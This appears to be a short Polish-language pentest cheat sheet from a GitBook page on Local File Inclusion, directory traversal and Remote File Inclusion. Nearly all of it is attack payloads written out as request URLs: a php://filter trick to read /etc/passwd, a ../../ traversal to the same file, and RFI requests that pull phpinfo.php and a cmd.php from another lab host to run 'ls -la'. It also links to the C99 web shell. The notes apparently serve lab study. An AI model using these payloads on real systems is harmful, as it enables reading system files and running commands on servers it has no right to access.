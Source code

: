 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Local File Inclusion, directory traversal, Remote File Inclusion

**LFI** skrypt się wykona

{% code fullWidth="true" %}
```python
127.0.0.1/rlfi.php?lanquage=php://filter/convert.base64-encode/resource=/etc/passwd&action=go
#a potem dekodujemy w burp suit decoder base64
```
{% endcode %}

**Directory traversal** czytamy bajt po bajcie, ale skrypt php czy inny się nie wykona

{% code fullWidth="true" %}
```python
127.0.0.1/directory_traversal_1.php?page=../../../../etc/passwd
```
{% endcode %}

**RFI**

{% code fullWidth="true" %}
```python
10.0.2.10/vulnerabilities/fi/?page=http://10.0.2.9:8000/phpinfo.php
10.0.2.10/vulnerabilities/fi/?page=http://10.0.2.9:8000/cmd.php&cmd=ls+-la
```
{% endcode %}

**WebShell**

[**https://github.com/cermmik/C99-WebShell/blob/master/c99shell.php**](https://github.com/cermmik/C99-WebShell/blob/master/c99shell.php)
